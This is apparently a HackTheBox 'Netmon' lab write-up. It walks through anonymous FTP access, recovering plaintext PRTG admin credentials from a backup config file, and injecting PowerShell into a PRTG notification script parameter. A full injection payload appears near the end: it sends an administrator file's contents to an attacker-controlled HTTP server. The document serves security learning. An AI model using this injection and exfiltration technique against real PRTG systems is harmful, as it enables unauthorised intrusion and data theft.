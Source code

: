 ### Introduction
HackTheBox netmon teaches about vulnerabiities associated with the PRTG Network Monitor. Exploiting this box requires some enumeration knowledge of windows, FTP, some knowledge of PRTG network monitor (lots of googling was done during this challenge), and a little bit of knowledge of powershell. In the method that I used to exploit netmon (that will be shown on this writeup), I also used (and learned how to use by doing this challenge) SimpleHTTPServer on kali linux.

### Enumeration
Doing a simple ```nmap -sC -sV -oA scan 10.10.10.152``` yields the following result:

![image](https://user-images.githubusercontent.com/41026969/55495150-48a5d500-560a-11e9-91e7-17d015735d37.png)

So from running the nmap scan I see that the box is running a windows server and that it is running with something called "PRTG Network Monitor." Also we see that the server allows anonymous access through FTP this means we can type in our username as ```anonymous``` and type in any random password and it'll allow us in as a user... interesting let's check that out:

![image](https://user-images.githubusercontent.com/41026969/55495577-3710fd00-560b-11e9-816a-70dc68f5ae71.png)

So immediately after I ftp'ed in, I did a quick ```ls -la``` check to see all the directories (the ```-la``` puts it in listed format and shows all files) and files.

#### Getting the user flag
I see that there is a ```Users``` directory that I can access. Going into that directory and doing another ```ls``` check reveals two directories: ```Administrator``` and ```Public```. However, doing a ```ls -la``` check to also view hidden directories there a few more that did not show up before, we'll check those out later. (when I initially did this challenge, I just did a ```ls``` check and only knew about the two directories...)

So first I tried changing directory into Administrator directory and failed (got a ```550 access is denied```), so I go into the User ```Public``` and I was able to get in, no access denied, so I did a ```ls -la``` check. Doing so I discovered ```user.txt```! (You can use the ```get``` command within ftp to download the file inside into your host machine, so I did ```get user.txt``` and was able to use ```cat``` to read the file).

### Enumeration continued...
Now onto getting the root flag... I did some more enumerating by going to the box IP: ```10.10.10.152``` and this is the homepage:

![image](https://user-images.githubusercontent.com/41026969/55510156-97179b80-562b-11e9-9b88-d99f33042174.png)

So the homepage confirms that the server is indeed running with PRTG Network Monitor and on the bottom the version number is listed ```PAESSLER PRTG Network Monitor 18.1.37.13956```. I initially tried a bunch of normally default credentials, none worked. I even looked into the PRTG Network Monitor manual and tried the default credentials that is listed and that didn't work... had to do some more googling...

Doing some googling of PRTG Network Monitor, I came across this [reddit thread](https://www.reddit.com/r/sysadmin/comments/862b8s/prtg_gave_away_some_of_your_passwords/) and according to the thread PRTG Network Monitor version 17.4+ can be effected, so it's possible that we can get the administrator creds by looking at some backup files due to the way PRTG Network Monitor stored backups unencrypted.

### Exploitation
Exploitation of this machine can be split up as a two step process. 

#### Part 1 - Getting the Admin credits to the website
So by doing some googling about the PRTG network monitor and some vulnerabilities associated with it, I came across the reddit thread mentioned earlier in this walkthrough that says the credentials are stored somewhere in the backup files. Combing through the directories there are a couple that are associated with PRTG:

first directory: ```/Program Files (x86)/PRTG Network Monitor```

also in that ```Users``` directory from earlier, there were a few hidden users, going through those I found another directory that has to do with PRTG...

second directory: ```/Users/All users/Paessler/PRTG Network Monitor```

Going through both directories, the first one I mentioned didn't have any of the logs mentioned, however the second one does... Doing an ```ls -la``` check reveals the following:  

![image](https://user-images.githubusercontent.com/41026969/55642080-7a02da00-579d-11e9-884b-e7e331d57306.png)

Here, there's a few files that are suspicious: the ```PRTG Configuration.dat```, ```PRTG Configuration.old```, and ```PRTG Configuration.old.bak```. 

After spending some time skimming through the log files, opening ```PRTG Configuratoin.old.bak``` indeed contains credentials in plaintext shown below. (this part took some patience and guidance and a lot of CNTRL + F...)

![image](https://user-images.githubusercontent.com/41026969/55642341-33fa4600-579e-11e9-9a80-4448298a6edb.png)

NOTE: for these credentials... when I first typed them into the site, it turned out it was wrong... Though if you notice in the password it says the year is 2018 but (at the time of writing this writeup/doing this challenge) it's 2019, trying to replace the password to ```PrTg@dmin2019```... it worked!

![image](https://user-images.githubusercontent.com/41026969/55642523-b71b9c00-579e-11e9-8345-1fca6c30eae2.png)

Above is the homepage of logging into PRTG as a system administrator!! Now onto the next part.

#### Part 2 - Getting some code execution to work and getting the root flag

Doing some further googling, I came across a vulnerability discovered that includes the version that I'm working with on [this website](https://www.codewatch.org/blog/?p=453). This vulnerability's attack vector is the notification system used within the website.

Basically according to the article above, there's a notification system within the admin page with some default testing scripts. One of which (the ```.ps1``` script) takes in argument/parameter input without any checks which allows the ability to inject other Powershell code. The notification system can be found under ```Setup > Account Settings > Notifications```. 

Reading the ```.ps1``` file, we need to first supply the name of the .txt file created (which can be anything we want), but we can add powershell code right after to get remote code execution.

The way I found the root flag was to use python's SimpleHTTPServer and use Powershell's ```Invoke-WebRequest``` to get the output from some powershell commands. In this case, my plan was to use ```type``` to output the root.txt file and send it to my SimpleHTTPServer. This had some guess and checking with the ```/Users/Administrator``` directory but eventually I got the root at ```Users/Administrator/Desktop/root.txt```.

To do this, I first edited the ```Email and push notificatoins to Admin``` at the notifications page. Then you can scroll down and turn on the ```Execute Program```. Then you can select the program file ```outfile.ps1``` and add the Powershell inject parameter. The parameter I used was: ```test.txt; Invoke-WebRequest http://10.10.14.4:8000/$(type c:/Users/Administrator/Desktop/root.txt)```. This parameter will basically create a ```test.txt``` file... but then the extra powreshell code makes a webrequest to my IP that reads the ```root.txt```. The notification system is shown below:

![image](https://user-images.githubusercontent.com/41026969/55645043-81c67c80-57a5-11e9-9ad5-f09906225073.png)

(I replaced ```IP``` and ```PORT``` with my IP and port the the SimpleHTTPServer was on.)

Run the SimpleHTTPServer by doing ```python -m SimpleHTTPServer```

Then after, on the PRTG notification page, you can click the checkmark box on the right of ```Email and push notification to Admin``` (the one you just edited) and click the bell icon to run it. After you should get the root flag!

![image](https://user-images.githubusercontent.com/41026969/55645224-04e7d280-57a6-11e9-8bcd-b6ba21759399.png)

NOTE: it places the notification in a queue so you may have to wait a few seconds to a couple minutes...

### Flags
User: ```/Users/Public/user.txt```

Root: ```/Users/Administrator/Desktop/root.txt```
